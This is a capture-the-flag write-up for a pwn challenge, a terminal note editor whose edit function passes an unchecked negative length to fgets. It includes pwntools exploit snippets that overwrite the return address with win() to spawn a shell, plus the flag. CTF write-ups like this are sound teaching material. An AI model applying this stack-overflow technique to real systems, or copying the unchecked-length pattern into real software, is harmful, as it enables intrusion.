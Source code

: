 # Note Editor

## Challenge Summary

- **Category**: Pwn
- **Points**: 102
- **Solves**: 66 teams

---

### Problem Description

> The web guys always have these note apps, why not use this terminal based one instead.

---

## Challenge Structure

- A terminal-based note-taking application using a stack buffer (`char buffer[1024]`)
- Vulnerable `edit` function with signed-to-unsigned conversion bug (`int64_t length` → `fgets`) allowing stack overflow
- Exploitation leads to control over the return address and execution of the `win()` function

---

### Protections:

```
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

---

## Exploitation Flow

### Step 1: Identify the Vulnerability

The `edit` function reads a signed 64-bit length from the user:

```c
int64_t length;
SCANLINE("%ld", &length);
```

It then passes this length to `fgets` without checking if it is negative:

```c
fgets(note->buffer + offset, length + 2, stdin);
```

If we provide a negative `length`, it will be converted to a large unsigned value, leading to a buffer overflow that can overwrite stack data including the return address.

---

### Step 2: Craft Payload to Overwrite Return Address

We prepare a payload that fills up the buffer and overwrites the return address:

```python
payload = flat({
    0x400: elf.bss(),      # set note.buffer (RBP-0x20) to valid memory
    0x428: elf.sym.win     # overwrite return address with win()
})
```

We trigger the overflow using `edit()`:

```python
r.sendlineafter(b"Quit\n", b"4")
r.sendlineafter(b"editing: ", b"0")
r.sendlineafter(b"overwrite: ", f"{0x800 - (1 << 32)}")
r.sendline(payload)
```

---

### Step 3: Execute and Gain Shell

We exit the program to trigger the overwritten return address:

```python
r.sendlineafter(b"Quit\n", b"6")
r.interactive()
```

This calls `win()`, which runs `/bin/sh` and gives us a shell.

---

## Flag

```
GPNCTF{noW_yoU_5ur3Ly_AR3_REAdy_To_Pwn_1ADYbiRD!}
```
